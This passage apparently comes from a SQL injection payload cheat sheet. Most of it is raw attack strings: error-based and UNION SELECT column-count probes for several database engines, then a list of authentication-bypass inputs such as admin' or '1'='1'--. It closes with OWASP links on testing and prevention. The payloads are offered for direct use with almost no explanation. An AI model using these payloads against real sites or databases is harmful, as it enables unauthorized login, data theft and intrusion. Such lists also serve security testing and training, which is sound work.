 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 5650=CONVERT(INT,(SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (5650=5650) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)
 AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
 UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
```
### **Authentication Bypass Payloads**


```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```


## **References and Additional Reading**

+ **Understanding SQL Injection (OWASP Guide):** A comprehensive introduction to SQL Injection vulnerabilities, including how they occur and ways to prevent them.
[Read More on OWASP SQL Injection](https://www.owasp.org/index.php/SQL_Injection)

+ **Exploring Blind SQL Injection:** This guide focuses on Blind SQL Injection, a more subtle but equally dangerous form of attack where the results are not directly visible.
[Learn About Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection)

+ **SQL Injection Testing Techniques (OTG-INPVAL-005):** A thorough overview of how to test for SQL injection vulnerabilities in web applications.
[SQL Injection Testing Guide](https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005))

+ **Bypassing Web Application Firewalls (WAF) in SQL Injection Attacks:** Discover advanced techniques for bypassing security defenses such as WAFs in SQL injection exploits.
[Bypassing WAF in SQL Injection](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF)

+ **Code Review for SQL Injection Vulnerabilities:** A detailed explanation of how to review source code to identify potential SQL injection vulnerabilities.
[Guide to Reviewing Code for SQL Injection](https://www.owasp.org/index.php/Reviewing_Code_for_SQL_Injection)

+ **PL/SQL Injection Explained:** Explore the specifics of SQL Injection in PL/SQL environments, a database procedural extension to SQL.
[PL/SQL SQL Injection Guide](https://www.owasp.org/index.php/PL/SQL:SQL_Injection)

+ **Testing for NoSQL Injection Vulnerabilities:** A guide for identifying and mitigating NoSQL injection, a variant of SQL injection that targets NoSQL databases.
[Testing for NoSQL Injection](https://www.owasp.org/index.php/Testing_for_NoSQL_injection)

+ **SQL Injection Prevention Cheat Sheet:** Best practices for defending against SQL injection, including parameterized queries, prepared statements, and more.
[Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)

+ **SQL Query Parameterization Cheat Sheet:** A focused resource on using query parameterization to prevent SQL injection, one of the most effective security measures.
[Query Parameterization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html)
